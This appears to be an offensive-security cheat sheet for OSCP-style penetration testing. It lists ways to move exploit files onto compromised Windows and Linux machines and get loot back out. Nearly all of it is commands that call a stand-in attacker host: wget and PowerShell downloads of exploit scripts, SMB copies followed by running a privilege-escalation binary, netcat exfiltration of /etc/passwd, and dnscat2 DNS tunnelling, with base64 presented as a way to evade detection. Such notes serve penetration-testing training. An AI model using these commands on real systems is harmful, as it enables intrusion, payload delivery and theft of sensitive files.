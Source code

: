 ### **File Transfer Tools**  

#### **1. SCP (Secure Copy - Over SSH)**  
- Uses SSH for secure file transfers.  
- Example:  
  ```bash
  scp exploit.py user@target-ip:/tmp/
  ```

#### **2. Rsync (Fast File Synchronization)**
- Useful for transferring multiple or large files.  
- Example:  
  ```bash
  rsync -avz exploit.py user@target-ip:/tmp/
  ```

#### **3. Netcat (Simple and Fast Transfer)**
- **Send File:**  
  ```bash
  nc target-ip 4444 < exploit.sh
  ```
- **Receive File:**  
  ```bash
  nc -lvp 4444 > received_exploit.sh
  ```

#### **4. Python HTTP Server**
- Quick and easy method to host files.  
- **On attacker machine:**  
  ```bash
  python3 -m http.server 8080
  ```
- **On target machine:**  
  ```bash
  wget http://attacker-ip:8080/exploit.sh
  ```

---

### **🔍 Advanced & Stealthy File Transfer Methods**  

#### **5. Curl & Wget (Built-in Linux Tools)**
- **Download file:**  
  ```bash
  curl -O http://attacker-ip/file
  ```
  or  
  ```bash
  wget http://attacker-ip/file
  ```

#### **6. PowerShell (For Windows Targets)**
- **Download a file using PowerShell:**  
  ```powershell
  Invoke-WebRequest -Uri "http://attacker-ip/file" -OutFile "C:\Users\Public\loot.exe"
  ```

#### **7. SMB (For Windows File Transfers)**
- **On attacker machine (Kali, start SMB server):**  
  ```bash
  impacket-smbserver share $(pwd) -smb2support
  ```
- **On target machine (Windows, download file):**  
  ```powershell
  copy \\attacker-ip\share\exploit.exe C:\Users\Public\
  ```

#### **8. FTP (When SSH & SMB are unavailable)**
- **On attacker machine (Start FTP server)**  
  ```bash
  python3 -m pyftpdlib -p 21
  ```
- **On target machine (Connect to FTP & download file)**  
  ```bash
  ftp attacker-ip
  get exploit.sh
  ```

#### **9. Base64 Encoding (Evade Detection)**
- **Encode file:**  
  ```bash
  base64 exploit.bin > exploit.b64
  ```
- **Transfer via Netcat, SSH, or Email, then decode on target:**  
  ```bash
  base64 -d exploit.b64 > exploit.bin
  ```

#### **10. DNS Exfiltration (Stealth Transfer)**
- **Using `dnscat2` (for bypassing network filters)**  
  ```bash
  dnscat2 attacker-ip
  ```

---
### **OSCP Real-World File Transfer Scenario**  
**Objective:** Transfer an **exploit script** from your **attacker machine (Kali)** to a **compromised target (Windows/Linux)** and retrieve loot files.  

---

## **Scenario 1: Windows Target (PowerShell + SMB Transfer)**
### **Situation:**  
- You have **low-privilege access** on a Windows machine via a **reverse shell**.  
- You need to **upload a privilege escalation script** and **exfiltrate loot files**.  

### **Attack Workflow**
#### **Step 1: Set Up an SMB Share on Kali**  
Use Impacket's `smbserver.py` to host a share on your attacker machine:  
```bash
impacket-smbserver sharename $(pwd) -smb2support
```

#### **Step 2: On Windows (Download File via PowerShell)**
In your Windows shell, execute:  
```powershell
copy \\attacker-ip\sharename\priv_esc.exe C:\Users\Public\priv_esc.exe
```
Then run the exploit:  
```powershell
C:\Users\Public\priv_esc.exe
```

#### **Step 3: Exfiltrate Loot (Upload to Kali via SMB)**  
Copy files back to your attacker machine:  
```powershell
copy C:\Users\Public\loot.txt \\attacker-ip\sharename\loot.txt
```

---

## **Scenario 2: Linux Target (Netcat + Python HTTP Server)**
### **Situation:**  
- You have **a low-privilege shell** on a **Linux machine**.  
- You need to **transfer LinPEAS.sh for privilege escalation** and retrieve a sensitive file.  

### **Attack Workflow**
#### **Step 1: Host the File on Kali (Python HTTP Server)**
On your attacker machine (Kali):  
```bash
cd /tmp
python3 -m http.server 8080
```

#### **Step 2: On the Linux Target (Download LinPEAS)**
From the low-privilege shell:  
```bash
wget http://attacker-ip:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

#### **Step 3: Exfiltrate Sensitive Files with Netcat**
On Kali (Listening for incoming file transfer):  
```bash
nc -lvp 4444 > loot.txt
```

On the compromised Linux machine (Sending the file):  
```bash
cat /etc/passwd | nc attacker-ip 4444
```

---

## **Scenario 3: Fully Restricted Environment (Base64 + Netcat)**
### **Situation:**  
- Your target **does not allow direct file downloads** (no `wget`, `curl`, `scp`).  
- **Solution:** Encode the file in **Base64**, transfer via Netcat, and decode on the target.  

### **Attack Workflow**
#### **Step 1: Encode the Exploit on Kali**
```bash
base64 exploit.sh > exploit.b64
```

#### **Step 2: Transfer with Netcat**
On Kali (Listening for transfer):  
```bash
nc -lvp 5555 < exploit.b64
```

On the target (Send file):  
```bash
nc attacker-ip 5555 > exploit.b64
```

#### **Step 3: Decode & Execute on Target**
```bash
base64 -d exploit.b64 > exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## **Summary**
| **Scenario** | **Method Used** | **Target OS** | **Stealth Level** |
|-------------|----------------|--------------|----------------|
| Windows PrivEsc | SMB + PowerShell | Windows |  Low (Can be logged) |
| Linux PrivEsc | Python HTTP + Netcat | Linux |  Medium |
| Restricted Transfer | Base64 + Netcat | Linux/Windows |  High (Evades Filters) |

